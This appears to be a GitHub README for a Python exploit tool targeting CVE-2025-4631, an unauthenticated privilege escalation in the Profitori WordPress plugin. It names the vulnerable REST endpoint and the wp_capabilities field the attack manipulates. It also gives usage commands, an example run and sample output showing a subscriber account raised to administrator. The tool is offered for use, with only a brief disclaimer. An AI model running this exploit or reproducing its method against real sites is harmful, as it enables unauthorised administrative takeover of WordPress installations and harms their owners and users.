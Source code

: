 
## 🚨 CVE-2025-4631 - Profitori WordPress Plugin Privilege Escalation Exploit

### 📌 Vulnerability Summary
**Profitori Plugin (versions 2.0.6.0 to 2.1.1.3)** is vulnerable to **unauthenticated privilege escalation** due to a missing capability check in the `/wp-json/stocktend/v1/stocktend_object` endpoint. This allows remote attackers to escalate the privileges of existing users (or create new ones) by directly manipulating the `wp_capabilities` meta field.

- **CVE**: CVE-2025-4631
- **CVSS Score**: 9.8 (Critical)
- **Published**: May 30, 2025
- **Last Updated**: May 31, 2025

---

## 🛠️ What This Script Does
This Python exploit automates the privilege escalation process by:

1. ✅ Checking the plugin version via the `readme.txt` file.
2. 🚀 Exploiting the vulnerable REST API endpoint if a vulnerable version is detected.
3. 📡 Sending the payload to escalate a user’s privileges to Administrator.
4. 🧾 Printing formatted, detailed results including the modified user’s credentials.

If the version check fails, the exploit proceeds cautiously with a warning.

---

## 📸 Exploit Proof
![Proof of Concept](./nxploit_poc.PNG)

---

## 💻 Usage
```bash
usage: CVE-2025-4631.py [-h] -u URL -id ID [--email EMAIL] [--name NAME] [--url_field URL_FIELD] [--verbose]
```

### Example:
```bash
python CVE-2025-4631.py -u http://nxploit.ddev.site -id 3
```

### Sample Output:
```
[📄] Checking plugin version at: http://nxploit.ddev.site/wp-content/plugins/profitori/readme.txt
[✅] Vulnerable version detected: 2.1.1.3
[🚀] Exploiting in 3 seconds...
[📡] Sending privilege escalation request to: http://nxploit.ddev.site/wp-json/stocktend/v1/stocktend_object
[🎯] Exploit completed successfully!

[🧾] Updated User Information:
--------------------------------------
🆔 User ID         : 3
👤 Username        : subscriber
📧 Email           : subscriber@example.com
🪪 Display Name    : Subscriber User
🔗 User URL        : 
🛡 Role Raw        : a:1:{s:13:"administrator";b:1;}

[👑] Exploit By : Nxploited (Khaled_alenazi)
🔗 GitHub       : https://github.com/Nxploited
📧 Email        : NxploitBot@gmal.com
```

---

## ⚙️ Script Arguments
| Flag               | Description                                      | Required |
|--------------------|--------------------------------------------------|----------|
| `-u`, `--url`       | 🌐 Base URL of the WordPress site               | ✅ Yes   |
| `-id`               | 🆔 ID of the user to escalate                   | ✅ Yes   |
| `--email`           | 📧 Fake email to display                        | ❌ No    |
| `--name`            | 👤 Display name                                 | ❌ No    |
| `--url_field`       | 🔗 User URL field                               | ❌ No    |
| `--verbose`         | 🔍 Print full JSON response                     | ❌ No    |

---

## 📂 Requirements
- Python 3.x
- `requests` library

Install via:
```bash
pip install requests
```

---

## ⚠️ Disclaimer
This tool is provided for **educational and authorized testing purposes only**. Any misuse of this exploit against systems you do not own or have explicit permission to test is **strictly prohibited**. The creator is not responsible for any damages or legal consequences arising from improper usage.

---

*BY: Nxploited ( Khaled_Alenazi )*

